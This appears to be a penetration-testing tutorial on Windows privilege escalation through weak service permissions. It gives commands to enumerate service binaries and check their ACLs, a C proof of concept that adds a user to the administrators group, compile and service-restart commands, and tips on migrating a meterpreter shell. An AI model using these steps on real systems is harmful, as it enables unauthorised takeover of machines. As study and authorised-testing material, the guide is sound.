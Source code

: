 ## Weak Service Permission

### Basic steps to take

Services on windows are programs that run in the background. Without a GUI.

If you find a service that has write permissions set to ``everyone`` you can change that binary into your custom binary and make it execute in the privileged context.

First we need to find services. That can be done using ``wmci`` or ``sc.exe``. Wmci is not available on all windows machines, and it might not be available to your user. If you don't have access to it, you can use ``sc.exe``.

**WMCI**
```
wmic service list brief
```

This will produce a lot out output and we need to know which one of all of these services have weak permissions. In order to check that we can use the ``icacls`` program. Notice that ``icacls`` is only available from Vista and up. XP and lower has ``cacls`` instead.

As you can see in the command below you need to make sure that you have access to ``wimc``, ``icacls`` and write privilege in ``C:\windows\temp``.

```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
```

```
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

Binaries in system32 are excluded since they are mostly correct, since they are installed by windows.

**sc.exe**

```
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
Now you can process them one by one with the cacls command.

```
cacls "C:\path\to\file.exe"
```

**Look for Weakness**

What we are interested in is binaries that have been installed by the user. In the output you want to look for ``BUILTIN\Users:(F)``. Or where your user/usergroup has ``(F)`` or ``(C)`` rights.

*Example:*

```
C:\path\to\file.exe 
BUILTIN\Users:F
BUILTIN\Power Users:C 
BUILTIN\Administrators:F 
NT AUTHORITY\SYSTEM:F
```

That means your user has write access. So you can just rename the ``.exe`` file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

```
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```
We then compile it with mingw like this:

```
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```
Restart the Service

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using ``wmic`` or ``net`` the following way:

```
wmic service NAMEOFSERVICE call startservice
```
```
net stop [service name] && net start [service name].
```
The binary should now be executed in the SYSTEM or Administrator context.

**Migrate the meterpreter shell**

If your meterpreter session dies right after you get it you need migrate it to a more stable service. A common service to migrate to is winlogon.exe since it is run by system and it is always run. You can find the PID like this:

```
wmic process list brief | find "winlogon"
```
So when you get the shell you can either type migrate PID or automate this so that meterpreter automatically migrates.

http://chairofforgetfulness.blogspot.cl/2014/01/better-together-scexe-and.html